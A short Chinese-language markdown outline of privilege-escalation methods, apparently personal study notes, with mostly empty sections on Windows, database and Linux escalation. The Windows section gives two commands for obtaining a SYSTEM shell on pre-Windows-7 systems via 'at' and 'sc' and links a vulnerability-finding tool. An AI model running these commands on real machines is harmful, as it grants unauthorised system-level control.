




# 网站权限



# Windows系统提权




### 提权漏洞信息收集工具

- wes
https://github.com/bitsadmin/wesng

### at

针对windows7前的操作系统

通过 

```cmd 
at 15:13 /interactive cmd.exe 
```

可以直接获得system权限 

### sc

针对windows7前的操作系统

```cmd

sc Create systemcmd binPath="cmd /K start" type=own type=interact

sc start systemcmd
```

# 数据库提权

思路：通过获得数据库最高权限用户，执行命令



### mysql

### mssql

### oracle

# Linux提权

